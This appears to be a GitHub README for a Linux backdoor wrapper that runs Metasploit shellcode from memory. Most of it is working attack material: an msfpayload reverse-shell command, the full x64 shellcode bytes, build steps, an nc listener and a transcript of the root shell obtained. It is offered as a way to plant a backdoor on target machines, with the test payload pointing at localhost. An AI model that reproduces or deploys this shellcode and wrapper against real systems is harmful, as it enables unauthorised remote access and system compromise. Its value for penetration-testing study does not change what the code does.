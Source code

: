 backdoor_wrapper
================

A linux wrapper for msfpaylod shellcodes.


As you probably know it is fairly easy to create executable backdoors for Windows with msfpayload. Sometimes I want to have a meterpreter shell to the target machine even if I have a normal shell access. In this case I usually upload a meterpreter reverse shell .exe generated with msfpayload and simply execute it from my current shell. This is not so simple in Linux as it seems or at least I haven't found a simple way. The only problem is that msfpayload don't generate linux binaries. So the goal was to be able to use the metasploit payloads in binaries that can be executed under linux/unix systems. My solution was to create a wrapper C program for the shell code which will load it to the memory and execute it in the memory. This way the shell code can be generated with msfpayload for C and can be copy-pasted in the wrapper program. After that the code needs to be compiled than it's ready to go.

Let's see an example. First let's generate a reverse shell which will connect to the localhost (for the sake of testing) when executed. The necessary command is the following:

root@bt:~# msfpayload linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=7777 C
/*
 * linux/x64/shell_reverse_tcp - 74 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LHOST=127.0.0.1, LPORT=7777, 
 * ReverseConnectRetries=5, ReverseAllowProxy=false, 
 * PrependSetresuid=false, PrependSetreuid=false, 
 * PrependSetuid=false, PrependSetresgid=false, 
 * PrependSetregid=false, PrependSetgid=false, 
 * PrependChrootBreak=false, AppendExit=false, 
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x1e\x61\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
 
So we have a shell code in C syntax.

The build the binary the following command should be run:
root@bt:~# gcc -o backdoor_example backdoor_example.c

To test it we need to start a listener:

root@bt:~# nc -lvvp 7777
listening on [any] 7777 ...

and start the backdoor:
root@bt:~/OSCP# ./backdoor_example

The executable will return immediately since it just spawns a process for the shellcode and then it returns. However with our listener we will receive the reverse shell:
root@bt:~# nc -lvvp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 47355
ls
bin
boot
cdrom
chroots
dev
etc
home
initrd.img
lib
lib32
lib64
lost+found
media
mnt
nis
opt
pentest
proc
root
sbin
selinux
share
srv
sys
tmp
usr
var
vmlinuz
id
uid=0(root) gid=0(root) groups=0(root)


